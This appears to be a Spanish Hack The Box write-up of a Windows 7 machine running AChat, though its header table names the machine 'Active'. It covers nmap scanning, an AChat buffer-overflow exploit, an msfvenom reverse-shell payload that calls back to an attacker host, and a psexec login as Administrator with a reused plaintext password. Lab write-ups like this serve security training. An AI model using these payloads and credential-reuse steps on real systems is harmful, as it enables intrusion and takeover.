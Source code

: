# Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Active](https://www.hackthebox.com/home/machines/profile/123) |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad | ![Dificultad](images/difficulty.png) |
| Puntos | 30 |
| Creadores | [lkys37en](https://www.hackthebox.com/home/users/profile/709) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:36 EDT
Initiating Connect Scan at 13:36
Scanning 10.10.10.74 [65535 ports]
Discovered open port 135/tcp on 10.10.10.74
Discovered open port 139/tcp on 10.10.10.74
Discovered open port 445/tcp on 10.10.10.74
Discovered open port 49152/tcp on 10.10.10.74
Discovered open port 49154/tcp on 10.10.10.74
Discovered open port 9256/tcp on 10.10.10.74
Discovered open port 49153/tcp on 10.10.10.74
Discovered open port 9255/tcp on 10.10.10.74
Discovered open port 49155/tcp on 10.10.10.74
Discovered open port 49157/tcp on 10.10.10.74
Discovered open port 49156/tcp on 10.10.10.74
Completed Connect Scan at 13:37, 29.11s elapsed (65535 total ports)
Nmap scan report for 10.10.10.74
Host is up, received user-set (0.073s latency).
Scanned at 2022-05-27 13:36:42 EDT for 29s
Not shown: 54223 closed tcp ports (conn-refused), 11301 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
9255/tcp  open  mon          syn-ack
9256/tcp  open  unknown      syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 29.15 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.074s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m01s, deviation: 2h18m36s, median: 4h59m59s
| smb2-time:
|   date: 2022-05-27T22:40:43
|_  start_date: 2022-05-27T22:34:47
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T18:40:47-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.63 seconds
```

# Enumeración

## Servicios

### achat - 9255, 9256

#### Manual

Al buscar hacer un reconocimiento directamente por alguna versión vulnerable se encontró [este repositorio en github](https://github.com/mpgn/AChat-Reverse-TCP-Exploit) de una prueba de concepto sobre la explotación del programa, probado en su versión y arquitectura `AChat 0.150 Beta 7 Windows 7/8/10 x86/x64`. Por lo que directamente se probó el exploit.

# Explotación

## Buffer Overflow - RCE

### Pasos previos | Preparación

Dadas las indicaciones en la PoC se generó el shellcode correspondiente usando `msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=$RHOST LHOST=10.10.14.16 LPORT=4321 exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > scode.txt`

Sustituyendo los valores correspondientes en el script del shellcode y host.

### Ejecución

Obteniendo acceso como el usuario `alfred`.

![Acceso como usuario alfred](images/exploit_1.png)

# Post Explotación

## Enumeración

Posteriormente al ejecutar [winPEAS](https://github.com/carlospolop/PEASS-ng), se identificaron dos rutas potenciales a probar:

1. El usuario con el que se cuenta (alfred) tiene acceso completo al directorio del usuario Administrator.
2. Existen credenciales AutoLogon visibles.

![Rutas potenciales](images/post_1.png)

## Escalación de privilegios

### alfred &rarr; nt authority system

En el primer caso, bastaría con leer, escribir o ejecutar cualquier archivo dentro del directorio, si llegara a suceder que no se permite el acceso a un archivo bastaría con hacer uso de `icacls` para efectuar el cambio de permisos lo cual por herencia o jerarquía del directorio, se permitiría este cambio pudiendo así leer la bandera de `root.txt`.

Por medio de `icacls .\root.txt /e /p alfred:f`, tomando como referencia [este post](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html) para verificar el uso del binario.

![Cambio de permisos](images/post_2.png)

En el segundo caso, al probar alguna herramienta que permita acceso al sistema con credenciales como `psexec` se puede obtener una shell como `NT AUTHORITY SYSTEM`, probando las credenciales obtenidas anteriormente bajo la suposición de reutilización de contraseña.

Ejecutando `impacket-psexec 'Administrator:Welcome1!@10.10.10.74'`.

![Acceso como nt authority system](images/post_3.png)

# Referencias

- [AChat expoit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit).
- [Windows change access permissions from the command line](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html).
